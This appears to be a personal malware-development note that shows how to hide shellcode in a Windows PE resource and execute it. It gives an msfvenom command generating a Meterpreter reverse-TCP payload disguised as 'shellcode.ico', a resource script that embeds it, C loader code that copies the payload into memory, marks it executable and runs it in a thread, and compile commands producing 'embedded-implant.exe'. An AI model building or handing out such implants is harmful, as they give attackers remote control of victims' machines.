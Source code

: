 # FindResource

Determines the location of a resource with the specified type and name in the specified module.

(LoadResource) Retrieves a handle that can be used to obtain a pointer to the first byte of the specified resource in memory.

(SizeofResource)  Retrieves the size, in bytes, of the specified resource.

```
$ msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=<IP> lport=<IP> exitfunc=thread -f raw -o shellcode.ico
```

```c
#define SC_ICON 2583
SC_ICON RCDATA "shellcode.ico"
```

```c
#include <windows.h>

#define SC_ICON 2583
int main() {
    // Find shellcode data
    HRSRC handle_resource = FindResource(NULL, MAKEINTRESOURCE(SC_ICON), RT_RCDATA);

    // Load shellcode
    HGLOBAL handle_global = LoadResource(NULL, handle_resource);

    // Get pointer to shellcode
    LPVOID memory_pointer = LockResource(handle_global);

    // Length of shellcode
    DWORD length = SizeofResource(NULL, handle_resource);

    // Allocate the memory
    LPVOID execute_memory = VirtualAlloc(NULL, length, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

    RtlMoveMemory(execute_memory, memory_pointer, length);

    DWORD old_protection = 0;
    BOOL returned_virtual_protection = VirtualProtect(execute_memory, length, PAGE_EXECUTE_READ, &old_protection);

    if(returned_virtual_protection != NULL) {
        HANDLE thread_handle = CreateThread(NULL, NULL, (LPTHREAD_START_ROUTINE)execute_memory, NULL, NULL, NULL);

        WaitForSingleObject(thread_handle, INFINITE);
    }
}
```

```
$ x86_64-w64-mingw32-windres resource.rc resource.o

$ x86_64-w64-mingw32-gcc -o embedded-implant.exe resource.o implant.c
```

```
C:\> rc resource.rc

C:\> cvtres /machine:x64 /out:resource.o resource.res

C:\> cl.exe /nologo /0x /W0 /GS- /DNDEBUG /Tc:implant.c /link /out:embedded-implant.exe /subsystem:console /machine:x64 resource.o
```

---
## References

- [[03 - Malware Development/Global Helpers/Programs/Compilers/Windows/C|Compilers: C]]

- [Red Team Notes: Loading and Executing Shellcode From PE Resources](https://www.ired.team/offensive-security/code-injection-process-injection/loading-and-executing-shellcode-from-portable-executable-resources)

### MalAPI

- [MalAPI: FindResourceA](https://malapi.io/winapi/FindResourceA)

- [MalAPI: FindResourceExA](https://malapi.io/winapi/FindResourceExA)

- [MalAPI: SizeOfResource](https://malapi.io/winapi/SizeOfResource)

- [MalAPI: LockResource](https://malapi.io/winapi/LockResource)